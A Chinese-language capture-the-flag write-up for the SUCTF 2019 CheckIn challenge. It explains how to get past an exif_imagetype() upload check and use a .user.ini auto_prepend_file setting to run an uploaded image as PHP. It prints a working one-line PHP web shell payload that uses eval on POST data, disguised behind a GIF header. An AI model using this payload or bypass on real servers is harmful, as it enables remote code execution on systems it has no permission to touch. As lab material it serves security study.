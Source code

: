 # \[SUCTF 2019]CheckIn

## \[SUCTF 2019]CheckIn

## 考点

* exif\_imagetype()函数绕过
* 文件上传.user.ini

## wp

随便上传一个php文件试试

![](<../.gitbook/assets/image (19) (1) (1) (1).png>)

上传一个空的gif文件（就是新建空白txt再把后缀改成gif）判断有没有检查其他东西，会提示`exif_imagetype:not image!`，加上文件头`GIF89a`，就成功了。

试试上传正常图片

![](<../.gitbook/assets/image (26) (1) (1).png>)

这儿可以猜测是`exif_imagetype()`函数判断是不是图片，在文件头添加图片头就可以绕过了，例如gif的文件头GIF89a

然后制作图片马上传

![](<../.gitbook/assets/image (1) (1).png>)

&#x20;上传条件

1. 不能上传带有`<?`的文件，使用`<script language="php">xxx</script>`绕过
2. 上传的文件必须含有图片头

考虑使用.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的。那么这里利用是 .user.ini ，而且.user,ini利用的范围比.htaccess更广

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP\_INI\_SYSTEM、PHP\_INI\_PERDIR、PHP\_INI\_ALL、PHP\_INI\_USER

![](<../.gitbook/assets/image (14) (1).png>)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为`PHP_INI_PERDIR` 、 `PHP_INI_USER`的设置。

在php配置项中有两个比较有意思的项`auto_prepend_file`和`auto_append_file`，相当于指定一个文件，要执行脚本前自动包含，类似于在脚本文件前调用了require()函数。`auto_prepend_file`是在脚本文件前插入，而`auto_append_file`是在脚本文件最后才插入。

那么思路就有了，先上传图片马，然后利用.user.ini解析图片马，进行getshell

上传的.user.ini

![](<../.gitbook/assets/image (3) (1).png>)

上传的shell，常用一句话`GIF89a? <script language="php">eval($_POST[1])</script>`

![](<../.gitbook/assets/image (17) (1) (1).png>)

然后直接访问`/uploads/04b0951938d905b41348c1548f9c338b/`即可，因为`auto_prepend_file`自动包含了`shell.gif`

## 小结

1. 不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用`.php.ini`。
2. [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

